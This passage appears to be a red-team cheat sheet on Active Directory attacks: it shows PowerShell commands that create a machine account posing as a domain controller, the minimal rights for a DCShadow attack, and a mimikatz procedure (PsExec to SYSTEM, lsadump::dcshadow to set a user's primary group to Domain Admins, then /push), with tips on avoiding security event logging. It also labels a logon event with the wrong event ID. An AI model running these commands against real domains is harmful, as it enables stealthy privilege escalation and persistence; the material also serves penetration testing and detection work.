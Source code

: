 As the machine account will considered as a Domain Controller, no Windows
`Security` events `Event 4662: An operation was performed on an object` will be
generated upon replication operations. For maximum stealthiness, it is possible
to overpass-the-hash to mimic legitimate Domain Controller authentication.
Doing so will generate Windows `Security` events `Event 4662: An account was
successfully logged on` with the `Kerberos` (instead of `NTLM`) authentication
package. Refer to the `[ActiveDirectory] Kerberos tickets usage` note for more
information on the overpass-the-hash technique.

The PowerShell `ActiveDirectory` module's `New-ADComputer` and `Set-ADComputer`
can be used to create a new machine account and set its `UserAccountControl`
attribute.

```
# Creates a new machine account that will have the given password.
# The specified password must meet the password policy of the domain. The account will be created but disabled if the password does not meet the password policy.
New-ADComputer "<MACHINE_ACCOUNT_NAME>" -AccountPassword (ConvertTo-SecureString -AsPlainText -Force "<MACHINE_ACCOUNT_PASSWORD>")

# Set the specified machine account UserAccountControl attribute's
SERVER_TRUST_ACCOUNT bit.
Set-ADComputer "<MACHINE_ACCOUNT_NAME>" -Replace @{"UserAccountControl" = 0x2000}

# Retrives the specified machine account UserAccountControl attribute.
Get-ADComputer "<MACHINE_ACCOUNT_NAME>" -Properties UserAccountControl
```

### DCShadow

###### DCShadow minimal ACE

The following access rights are sufficient to conduct a `DCShadow` attack
(without the need of being part of a privileged group such as
`Domain Admins`):
  - `DS-Install-Replica` (right's GUID: `9923a32a-3607-11d2-b9be-0000f87a36b2`)
  - `DS-Replication-Manage-Topology` (right's GUID:
    `1131f6ac-9c07-11d1-f79f-00c04fc2dcd2`)
  - `DS-Replication-Synchronize` (right's GUID:
    `1131f6ab-9c07-11d1-f79f-00c04fc2dcd2`)

###### DCShadow realisation

Make sure that the local Firewall policy allows inbound connection on the
dynamic TCP ports range.

```
# Two mimikatz interpreters are required for the DCShadow attack (as implemented by mimikatz).
# The following mimikatz commands must be executed sequentially (the /push must be done after the operation as been entered).

# The first interpreter must be executed as "NT AUTHORITY\SYSTEM" and will be used to define the modification.
# PsExec can be used to elevate from local Administrator to "NT AUTHORITY\SYSTEM":
PsExec64.exe -accepteula -s -i cmd.exe
mimikatz # lsadump::dcshadow /object:<USERNAME> /attribute:PrimaryGroupID /value=<512 | 519 | GROUP_RID>

# The second interpreter must be executed as a domain user with enough privileges to conducted the DCShadow attack (by default a member of the "Domain Admins" group).
# runas can be used to execute a process under the identity of the specified account for remote access only:
runas /NetOnly /user:<DOMAIN>\<USERNAME> cmd.exe
mimikatz # lsadump::dcshadow /push
```
